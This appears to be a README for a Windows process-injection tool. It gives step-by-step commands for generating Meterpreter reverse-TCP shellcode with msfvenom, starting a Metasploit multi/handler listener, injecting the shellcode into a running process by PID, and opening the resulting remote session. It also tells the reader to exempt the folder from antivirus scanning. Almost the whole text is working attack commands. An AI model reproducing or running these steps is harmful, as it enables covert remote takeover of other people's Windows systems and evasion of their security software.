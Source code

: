 # process injection

- to run `win32_pi.c`, first create an exception for current folder
- install metasploit on your linux:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

- generate shell code running this command in your linux system:

```bash
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST={{HOST}} LPORT={{PORT}} EXITFUNC=thread -f c --var-name=moh3aPuke
```

- then configure metasploit:

```txt
msfconsole

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost {{HOST}}
msf6 exploit(multi/handler) > set lport {{PORT}}
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run -j
```

- build and run the `win32_pi.c` with the process ID as an argument
- on the linux shell, you should see:

```txt
[*] Meterpreter session (int) opened (local address -> remote address) at (timestamp)
```

- start interacting with the session by running:

```txt
msf6 exploit(multi/handler) > sessions -i 1
```

